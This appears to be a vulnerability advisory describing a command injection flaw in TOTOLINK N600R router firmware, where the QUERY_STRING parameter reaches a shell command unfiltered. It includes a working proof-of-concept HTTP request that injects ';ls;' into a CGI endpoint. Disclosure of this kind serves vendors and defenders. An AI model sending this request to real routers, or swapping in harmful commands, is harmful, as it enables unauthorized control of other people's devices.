


# TOTOLINK N600R V5.3c.5507_B20171031 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as N600R V5.3c.5507_B20171031
- **Firmware download address:**https://www.totolink.net/data/upload/20200728/f984576c47289d782ed65e67edbf06e2.zip


## Description

### 1.Product Information:

TOTOLINK N600R V5.3c.5507_B20171031 router, the latest version of simulation overview：




### 2. Vulnerability details

TOTOLINK N600R V5.3c.5507_B20171031 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.


We can see that the os will get ` QUERY_STRING`  without filter splice to the string `;ps;` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?;ls; HTTP/1.1 
Host: 192.168.0.1 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```


